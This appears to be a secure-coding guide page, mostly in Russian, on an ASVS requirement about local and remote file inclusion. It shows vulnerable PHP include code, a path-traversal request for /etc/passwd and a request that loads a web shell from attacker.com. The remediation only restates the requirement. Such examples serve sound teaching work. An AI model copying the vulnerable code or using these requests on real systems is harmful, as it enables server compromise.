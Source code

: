 ```yaml
---
title: V5.3.9 Output Encoding and Injection Prevention
---
```




## Requirement:

Verify that the application protects against Local File Inclusion (LFI) or Remote File Inclusion (RFI) attacks.

## Explanation:

**Local File Inclusion (LFI)**

Наличие уязвимости в скрипте, к  примеру:

```php
$file = $_GET['file'];
include $file.'.php';
```

приводит к выполнению произвольного кода на стороне сервера. Используя уязвимость злоумышленник может выполнить HTTP-запрос:


```http
http://example.com/file.php?addr=../../../../../etc/passwd
```

чтобы заставить приложение выполнить команду на локальной системе.

**Remote File Inclusion (RFI)**

Наличие уязвимости в скрипте, к  примеру:

```php
$file = $_GET['file'];
include($file);
```

приводит к выполнению произвольного кода на стороне сервера. Используя уязвимость злоумышленник может выполнить HTTP-запрос:

```http
http://example.com/?file=http://attacker.com/wso.php
```

чтобы заставить приложение запустить вредоносный код на стороне сервера.

## Remediation:

Убедитесь, что приложение защищено от атак с локальным включением файлов (LFI) или удаленным включением файлов (RFI).


## Additional:




